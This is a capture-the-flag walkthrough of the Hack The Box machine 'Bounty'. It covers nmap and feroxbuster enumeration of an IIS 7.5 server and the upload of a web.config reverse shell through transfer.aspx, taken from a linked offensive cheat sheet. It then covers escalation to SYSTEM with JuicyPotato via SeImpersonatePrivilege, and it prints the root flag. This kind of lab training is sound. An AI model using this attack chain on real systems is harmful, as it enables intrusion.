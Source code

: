 # Bounty

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Bounty]
└─$ sudo nmap -sC -sV -p- -T5 -oN Nmap_Result.txt 10.10.10.93
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-03 16:59 IST
Stats: 0:01:44 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 56.40% done; ETC: 17:02 (0:01:20 remaining)
Nmap scan report for 10.10.10.93
Host is up (0.11s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Bounty
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Web Enumeration ⤵️

I checked port 80 and I got a simple static site as I knew that this file has a windows server so I searched for asp, aspx, php related files through directory traversal →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Bounty]
└─$ feroxbuster -u http://10.10.10.93/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -o ferox_80.json --depth 1 -x asp,aspx

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.93/
 🚀  Threads               │ 100
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💾  Output File           │ ferox_80.json
 💲  Extensions            │ [asp, aspx]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 1
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       29l       95w     1245c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET       32l      121w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET     1624l    16517w  1403476c http://10.10.10.93/merlin.jpg
200      GET       32l       53w      630c http://10.10.10.93/
200      GET       22l       58w      941c http://10.10.10.93/transfer.aspx
301      GET        2l       10w      156c http://10.10.10.93/uploadedFiles => http://10.10.10.93/uploadedFiles/
```

I checked this URL `http://10.10.10.93/transfer.aspx` and got a file upload site so I checked the extensions through burpsuite Intercept and used the seclists wordlist for extension file →

![Untitled](Bounty%2047b86418c5a74b46a21dc7bd70172c90/Untitled.png)

I also got the URL `http://10.10.10.93/uploadedFiles` for uploadedfiles location that can load that file →

![Untitled](Bounty%2047b86418c5a74b46a21dc7bd70172c90/Untitled%201.png)

So I can upload config, doc, images files in this site so I searched for reverse shell exploit of config and I got this site →

[](https://github.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet/blob/master/web.config)

Now lets use this file and upload it to site and get the reverse shell , I only have to change the Reverse shell IP and port to get the shell →

![Untitled](Bounty%2047b86418c5a74b46a21dc7bd70172c90/Untitled%202.png)

while checking privileges I got  `SeImpersonatePrivilege` →

```powershell
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\windows\system32\inetsrv>
```

Lets use `JuicyPotato.exe` Tool to Impersonate Privileges to get the `nt\authority system` .

![Untitled](Bounty%2047b86418c5a74b46a21dc7bd70172c90/Untitled%203.png)

Lets see the flag →

```powershell
C:\Users\Administrator>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 5084-30B0
C:.
+---Contacts
+---Desktop
|       root.txt
|       
+---Documents
|       clean.bat
|       
+---Downloads
+---Favorites
|   +---Links
|   |       Suggested Sites.url
|   |       Web Slice Gallery.url
|   |       
|   +---Microsoft Websites
|   |       IE Add-on site.url
|   |       IE site on Microsoft.com.url
|   |       Microsoft At Home.url
|   |       Microsoft At Work.url
|   |       Microsoft Store.url
|   |       
|   +---MSN Websites
|   |       MSN Autos.url
|   |       MSN Entertainment.url
|   |       MSN Money.url
|   |       MSN Sports.url
|   |       MSN.url
|   |       MSNBC News.url
|   |       
|   \---Windows Live
|           Get Windows Live.url
|           Windows Live Gallery.url
|           Windows Live Mail.url
|           Windows Live Spaces.url
|           
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       RecentPlaces.lnk
|       
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
de88bf743cf4f5dbb9e8e7a523a47552

C:\Users\Administrator\Desktop>
```

I am Administrator Now →